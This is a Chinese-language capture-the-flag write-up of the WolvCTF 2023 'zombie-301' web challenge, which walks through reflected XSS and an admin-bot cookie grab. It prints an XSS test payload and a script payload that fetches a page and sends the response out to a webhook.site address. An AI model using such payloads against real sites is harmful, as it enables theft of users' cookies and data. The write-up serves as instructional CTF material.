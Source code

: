 # WolvCTF(2023)-zombie-301 writeup

访问题目地址:

![web-3.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.1.png)

有两个输入框，先看下前端代码,只有两个接口信息：
![web-3.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.2.png)

貌似没啥东西，第一个输入框要求输入一个zombie节目，第二个是输入一个zombie节目url。

第一个框随便输入内容之后，回显内容如下，输入内容嵌入到页面里面了

![web-3.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.3.png)

试试xss注入,很好，没有过滤：

<script>alert(1)</script>

请求地址：`http://49.232.142.230:11589/zombie?show=%3Cscript%3Ealert%281%29%3C%2Fscript%3E`

![web-3.8](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.8.png)

第二个框是输入一个url,随便输入之后，回显内容要求输入的url中host头要和题目地址一样，emm

![web-3.9](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.9.png)

试下201中的debug接口：

![web-5.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-5.1.png)

debug接口有鉴权，访问不成功了，emm,现在可以知道的是，请求头中的cookie信息中含有flag信息，原本想试试访问请求头或者响应头信息 的，但是没有cors可以利用，**普通用户的浏览器**在默认安全策略下是**无法通过 `fetch` 获取跨域响应的内容（包括响应体、响应头等）**的，除非目标服务器主动设置了允许跨域访问的 CORS 头。如果是普通用户浏览器，JS 是拿不到跨域响应内容的；但在题目环境中，往往没开这个限制，甚至可以读取 `file://`。直接读取response信息：

```
<script>fetch("http://49.232.142.230:12327/").then((data) => fetch("https://webhook.site/409eebb6-3c36-4da2-915b-1d2c3ea3426c?c=".concat(JSON.stringify(data))));</script>
```

在 CTF 中通过 `` + `fetch()` 成功读取并 exfiltrate 敏感 response 内容，是因为你的代码在服务端无头浏览器（如 puppeteer）中运行，**绕过了浏览器原本的 CORS 限制。**

![web-5.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-5.2.png)

webhook回传 Node.js中读取 HTTP 响应内容时未做 `stream` 转换处理直接返回了原始 `ReadableStream` 对象

![web-5.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-5.3.png)
